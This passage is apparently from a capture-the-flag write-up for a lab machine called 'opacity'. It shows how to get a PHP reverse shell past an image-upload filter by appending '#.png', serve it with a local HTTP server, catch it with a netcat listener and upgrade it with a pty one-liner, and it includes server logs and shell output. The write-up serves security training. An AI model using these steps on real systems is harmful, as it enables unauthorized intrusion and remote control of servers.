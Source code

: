 We can upload images into the server, but maybe we could try something else...

## Reverse shell

Let's try a reverse shell. You can find one [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) or, if you are using Kali, there's already one available at `/usr/share/webshells/php/php-reverse-shell.php`.

You need to modify the source code to indicate where you want the reverse shell thrown back to. Edit the following lines of `php-reverse-shell.php`:

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Then, you need to set a HTTP server on your machine, in order to upload the reverse shell on the `/cloud` directory of the target system:

```
python -m http.server 80
```

Set a listener on the choosen port:

```
nc -lnvp 6666
```

Open the browser and navigate to `http://<target_IP>/cloud` to upload the reverse shell. You can use a trick to decieve the server into thinking that the file you are uploading is a `.png` file just adding `#.png` after the `.php` extension.

```
http://<your_IP>/shell.php#.png
```

After that, you'll need to check if your shell was downloaded from your local server

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.29.131 - - [08/Apr/2023 22:29:15] "GET /shell.php HTTP/1.1" 200 -
```

Great! Now all you need to do is wait for the reverse shell.

```
connect to [redacted] from (UNKNOWN) [10.10.29.131] 54870
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 01:28:41 up 13 min,  0 users,  load average: 0.00, 0.29, 0.49
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

You can upgrade your shell using the command below:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
